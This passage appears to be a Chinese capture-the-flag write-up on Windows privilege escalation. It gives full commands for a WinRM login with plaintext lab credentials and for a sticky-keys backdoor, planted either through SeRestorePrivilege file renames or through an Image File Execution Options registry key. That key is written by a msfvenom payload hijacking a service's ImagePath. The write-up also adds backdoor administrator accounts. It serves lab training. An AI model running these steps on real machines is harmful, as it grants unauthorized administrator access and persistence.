proxychains evil-winrm -i 172.22.14.46 -u zhangshuai -p wSbEajHzZs

再查看用户权限

whoami /priv


成功获得了 SeRestorePrivilege

因为有SeRestorePrivilege，所以能无视ACL修改文件或者编辑注册表

### 利用SeRestorePrivilege

把cmd.exe重命名为sethc.exe，然后在锁屏界面连按五次shift启动sethc提权

    ren sethc.exe sethc.bak
    ren cmd.exe sethc.exe


锁定后连按5下shift弹出管理员shell


获得flag，添加管理员用户

    type C:\Users\Administrator\flag\flag03.txt
    net user test2 Abcd1234 /add
    net localgroup administrators test2 /add

## 利用注册表修改，同SeRestoreprivilege

登录后在桌面上看到privesccheck，这个是一个windows的提权脚本。我们看这个high，这里说是注册表可以修改，以及可以修改的路径


我们可以通过修改注册表来写入shift后门来提权

用msf生成木马来执行我们的shift.bat脚本

msfvenom -p windows/x64/exec cmd="C:\windows\system32\cmd.exe /c C:\Users\Adrian\Desktop\shift.bat" --platform windows -f exe-service > evil.exe

然后新建shift.bat文件，内容如下：

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"

依次执行下面的命令

    ## 修改注册表
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\evil.exe" /f
    ## 重启服务
    sc start gupdate

锁定用户，连续按5下shift，弹出shell

    创建新用户test
    net user test Abcd1234 /add
    将用户test添加至管理员组
    net localgroup administrators test /add


